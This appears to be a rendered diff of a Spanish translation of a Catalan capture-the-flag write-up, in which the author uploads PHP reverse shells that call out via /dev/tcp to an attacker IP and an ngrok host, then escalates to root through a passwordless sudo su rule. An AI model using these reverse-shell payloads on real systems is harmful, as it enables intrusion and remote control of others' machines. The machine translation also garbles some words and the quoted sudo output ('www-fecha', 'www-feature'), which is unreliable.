

Before and after one commit to j0rd1s3rr4n0/TramuntHackCTF, a Markdown page: Fonta22/WriteUp-Fonta22.md, 3 parts joined by grey strips. Shown: that part at 82% size. Rendered like a GitHub page.

````diff
--- a/Fonta22/WriteUp-Fonta22.md
+++ b/Fonta22/WriteUp-Fonta22.md
@@ -133,69 +131,69 @@ Per a generar la comanda, faré us de la pàgina [revshells.com](https://www.rev
 
 ![revshells.com](./img/revshells.png)
 
-Un cop tenim la comanda per a la víctima i l'atacant, creem l'arxiu PHP.
+Una vez tenemos el pedido para la víctima y el atacante, creamos el archivo PHP.
 
 **shell.php**:
 ```php
 <?php exec("bash -i >& /dev/tcp/212.227.146.196/4646 0>&1") ?>
 ```
 
-Prèviament a penjar l'arxiu, ens posem en escolta al port `4646` amb **Netcat**.
+Previamente a colgar el archivo, nos ponemos en escucha en el puerto `4646` con **Netcat**.
 
 ```
 $ nc -lvnp 4646
 ```
 
-Un cop pengem l'arxiu i l'obrim, no passa absolutament res perquè no he especificat la IP de l'atacant (la meva), sinó la de la víctima, per tant s'està intentant connectar a sí mateix (sóc burro).
+Una vez colgamos el archivo y lo abrimos, no pasa absolutamente nada porque no he especificado la IP del atacante (la mía), sino la de la víctima, por tanto se está intentando conectar a sí mismo (soy burro) .
 
-Ara sí, ho fotrem bé.
+Ahora sí, lo jodaremos bien.
 
 **shell.php**:
 ```php
 <?php exec("bash -i >& /dev/tcp/IP_DEL_FONTA/4646 0>&1") ?>
 ```
 
-Doncs mecagum deu no va. *xd*.
+Pues mecagum diez no va. *xd*.
 
-### Intent de port forwarding
-Fent una mica de recerca, al tenir la IP dinàmica no funciona. Haurem de fer port forwarding amb **Ngrok**.
+### Intento de puerto forwarding
+Haciendo algo de investigación, al tener la IP dinámica no funciona. Deberemos hacer puerto forwarding con **Ngrok**.
 
-Primer de tot, obrim un **túnel TCP** al port desitjat, en aquest cas, el `4646`.
+Ante todo, abrimos un **túnel TCP** en el puerto deseado, en este caso, el `4646`.
 
 ```
 $ ngrok tcp 4646
 ```
 
-D'aquesta manera, obtenim una url que redirigeix al nostre port local.
+De esta forma, obtenemos una url que redirige a nuestro puerto local.
 
 ```
 tcp://X.tcp.eu.ngrok.io:XXXXX -> localhost:4646
 ```
 
-Així doncs, podem actualitzar el nostre *payload*, aviam si va aquest cop.
+Así pues, podemos actualizar nuestro payload*, a ver si va esta vez.
 
 **shell_ngrok.php**:
 ```php
 <?php exec("bash -i >& /dev/tcp/X.tcp.eu.ngrok.io:XXXXX 0>&1") ?>
 ```
 
-*TAMPOC VA.*
+*TAMPOCO VA.*
 
-Provem una altra sintaxi.
+Probamos otra sintaxis.
 
 **shell_ngrok.php**:
 ```php
 <?php exec("bash -c 'bash -i >& /dev/tcp/X.tcp.eu.ngrok.io:XXXXX 0>&1'") ?>
 ```
 
-Doncs tampoc.
+Pues tampoco.
 
-### Shell ja feta de Kali Linux
-Després dels meus nefastos intents, recercant he trobat que **Kali Linux** ja inclou una sèrie de scripts de reverse shell per a PHP. Anem a intentar-ho.
+### Shell ya hecha de Kali Linux
+Después de mis nefastos intentos, buscando he encontrado que **Kali Linux** ya incluye una serie de scripts de reverse shell para PHP. Vamos a intentarlo.
 
 **Ruta**: `/usr/share/webshells/php/php-reverse-shell.php`
 
-Finalment després d'editar el fitxer amb la IP i el port desitjat, hem aconseguit una connexió!
+Finalmente después de editar el archivo con la IP y el puerto deseado, hemos conseguido una conexión!
 
 ![Successful Revshell](./img/success_revshell.png)
 
@@ -210,27 +208,27 @@ D'altra banda, si naveguem a l'URL del servidor, trobem una pàgina web amb un f
 
 ![bluegraded.i234.me web interface](./img/bluegraded.png)
 
-A partir d'aquest punt ja no sé si això és una cosa externa o té algo a veure amb la web. Decideixo moure'm a l'inici altre cop.
+A partir de este punto ya no sé si esto es algo externo o tiene algo que ver con la web. Decido moverme al inicio de nuevo.
 
-> **EDIT**: m'han confirmat que aquell arxiu no havia d'estar allà, osigui que menos mal que no hem fet res XD
+> **EDIT**: me han confirmado que aquel archivo no debía estar allí, o sea que menos mal que no hemos hecho nada XD
 
 ## `whoami`: `root`
-En una nova instància de shell, comprovo els privilegis de `sudo` de l'usuari actual. Ves per on, té pebrots la cosa:
+En una nueva instancia de shell, compruebo los privilegios de `sudo` del usuario actual. Mira por dónde, tiene pimientos la cosa:
 
 ```
 $ sudo -l
-Matching Defaults entries for www-data on localhost:
-    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
+Matching Defaults entres para www-fecha donde localhost:
+env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
 
-User www-data may run the following commands on localhost:
-    (ALL) NOPASSWD: /usr/bin/su
+User www-feature may run the following commands on localhost:
+(ALL) NOPASSWD: /usr/bin/su
 ```
 
-Sense pensar-m'ho dues vegades executo la comanda `su` i aconsegueixo escalar privilegis de manera bastant èpica.
+Sin pensármelo dos veces ejecuto el pedido `su` y consigo escalar privilegios de manera bastante épica.
 
 ![whoami root](./img/revshell_root.png)
 
-Dins el directori `/root` finalment trobem l'arxiu `flag.txt` que conté la flag!
+¡En el directorio `/root` finalmente encontramos el archivo `flag.txt` que contiene la flag!
 
 ![flag!!](./img/flag_root.png)
 
````
Also changed, not shown: other parts of Fonta22/WriteUp-Fonta22.md (+53 -55 lines).
